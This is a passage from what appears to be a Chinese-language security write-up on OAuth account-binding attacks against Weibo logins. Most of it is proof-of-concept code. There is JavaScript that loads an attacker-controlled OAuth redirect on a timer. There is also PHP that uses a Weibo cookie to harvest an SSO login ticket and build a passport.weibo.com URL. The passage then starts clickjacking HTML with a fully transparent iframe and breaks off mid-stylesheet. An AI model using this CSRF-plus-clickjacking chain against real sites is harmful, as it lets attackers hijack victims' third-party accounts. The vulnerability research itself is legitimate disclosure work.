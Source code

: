 ```
    document.getElementById("test0").src="https://gh0st.cn/oauth/weibo/redirect";
`}`
setTimeout("loadsrc()",2000);
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
```



### <a class="reference-link" name="%E5%9C%BA%E6%99%AF2.%E6%94%BB%E5%87%BB%E6%AD%A5%E9%AA%A4%EF%BC%9A"></a>场景2.攻击步骤

有些网站可能是post请求限制了referer或者根本没有跳转的请求而是直接进入了微博的绑定界面，因为state参数的原因导致根本无法以这个绑定页面为链接的形式去做攻击~

可能有很多朋友就有疑问了，为什么我老是提到state参数？这个参数是干什么用的呢？这里参考下微博的OAuth2.0接口的开发文档：

[http://open.weibo.com/wiki/Oauth2/authorize](http://open.weibo.com/wiki/Oauth2/authorize)

[![](https://p4.ssl.qhimg.com/t014febaafb3232887c.png)](https://p4.ssl.qhimg.com/t014febaafb3232887c.png)

是防止CSRF的，也就是说在这里如果绑定的链接是如下这样子的：

[![](https://p1.ssl.qhimg.com/t01c1ada5eac70ab726.png)](https://p1.ssl.qhimg.com/t01c1ada5eac70ab726.png)

没有state参数验证的，那么你可以直接以此作为绑定链接，**覆盖场景1中PoC里面的这个链接**:`https://gh0st.cn/oauth/weibo/redirect`

好了，说了那么多跟场景2没用的话，切入主题来说说场景2的情况到底该如何完成攻击？

很简单我们可以使用点击劫持来完成攻击，如下动态的PoC：

```
&lt;?php
//get weibo login token
$curl = curl_init();
$cookie = "你微博的Cookie";
curl_setopt($curl, CURLOPT_URL, 'http://login.sina.com.cn/sso/crossdomain.php?action=login');
curl_setopt($curl, CURLOPT_HEADER, 1);
curl_setopt($curl, CURLOPT_COOKIE, $cookie);
curl_setopt($curl, CURLOPT_RETURNTRANSFER, 1);
$data = curl_exec($curl);
curl_close($curl);
//echo $data;
$t = preg_match('/ticket=(.*?)&amp;sso/', $data, $res);
$url = "https://passport.weibo.com/wbsso/login?ticket=`{`$res[1]`}`&amp;ssosavestate=1556602678";
?&gt;

&lt;html&gt;
&lt;head&gt;
&lt;style type="text/css"&gt; 
.testframe `{`
    height: 100%;
`}` 
iframe `{`
    height: 100%;
    width: 100%;
    border: 0;
    margin: 0;
    padding: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
```